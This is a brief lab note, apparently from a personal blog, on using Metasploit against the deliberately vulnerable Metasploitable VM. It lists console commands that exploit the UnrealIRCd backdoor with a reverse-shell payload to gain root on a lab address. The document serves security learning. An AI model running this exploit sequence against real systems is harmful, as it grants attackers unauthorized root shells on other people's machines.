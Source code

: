 ```yaml
---
title: metasploit
date: 2019-02-27 14:25:12
tags:
---
```


# Metasploit

* 测试用的被攻击Linux虚拟机镜像下载

[Metasploitable](https://sourceforge.net/projects/metasploitable/)

* start msconsole

```console
service postgresql start
msconsole
```

* IRC on Metasploitable

```console
search Unreal 3.2.1.8
use exploit/unix/irc/unreal_ircd_3281_backdoor
show options
set RHOSTS 192.168.56.101
show payloads
set payload cmd/unix/reverse
show options
set LHOST 192.168.56.102
run
```

Can connect to 101 with root account
